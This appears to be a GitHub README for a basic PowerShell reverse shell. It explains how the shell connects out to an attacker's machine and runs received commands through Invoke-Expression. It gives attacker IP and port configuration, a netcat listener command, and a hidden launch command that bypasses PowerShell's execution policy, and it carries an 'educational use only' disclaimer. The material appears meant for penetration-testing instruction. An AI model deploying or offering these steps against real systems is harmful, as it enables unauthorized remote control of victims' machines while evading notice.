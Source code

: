 # Basic PowerShell Reverse Shell (StreamWriter)

This PowerShell script creates a **reverse shell** connection from a target computer back to your machine. It's a fundamental tool in ethical hacking and penetration testing, allowing you to **execute commands remotely** on a compromised system.

---

## How It Works

The script establishes an **outbound TCP connection** from the target to your attacker machine. Once connected, it acts as an interactive shell:

1.  **Listens for Commands:** It continuously waits for commands sent from your attacker machine.
2.  **Executes on Target:** It executes these commands on the target using `Invoke-Expression`.
3.  **Sends Output Back:** It sends the results of those commands (including errors) back to your listener.

This version uses `System.IO.StreamWriter` for efficient text-based communication.

---

## Setup & Usage

### 1. Configure the Script

Before deploying, **edit the script** to include your attacker machine's details:

* **`$AttackerIP`**: Your IP address (e.g., `"192.168.1.100"`)
* **`$AttackerPort`**: Your chosen listening port (e.g., `9001`)

```powershell
# --- Configuration ---
$AttackerIP = "10.10.10.10"; # <== REPLACE WITH YOUR IP
$AttackerPort = 4444;        # <== REPLACE WITH YOUR PORT
2. Start Your Listener (Attacker Machine)
Use Netcat (or nc) to listen for the incoming connection on your specified port:

Bash

nc -lvnp <Your_AttackerPort>
# Example: nc -lvnp 4444
3. Execute on Target (Target Machine)
Run the modified PowerShell script on the target. The following command is often used to execute it silently and bypass execution policies:

PowerShell

powershell.exe -NoP -NonI -W Hidden -Exec Bypass -File C:\Path\To\your_reverse_shell.ps1
(Replace C:\Path\To\your_reverse_shell.ps1 with the actual path.)

Interaction
Once the target connects, you'll gain an interactive PowerShell prompt in your Netcat listener. You can type commands like whoami or dir and see their output directly.

Important Considerations
Educational Use Only: This script is for authorized ethical hacking and educational purposes only. Never use it on systems without explicit, written permission.
Detection: Due to its nature, this script will likely be detected by antivirus (AV) and Endpoint Detection and Response (EDR) solutions.
Stability: This is a basic implementation; more robust reverse shells often include advanced features like encryption, better error handling, and obfuscation.
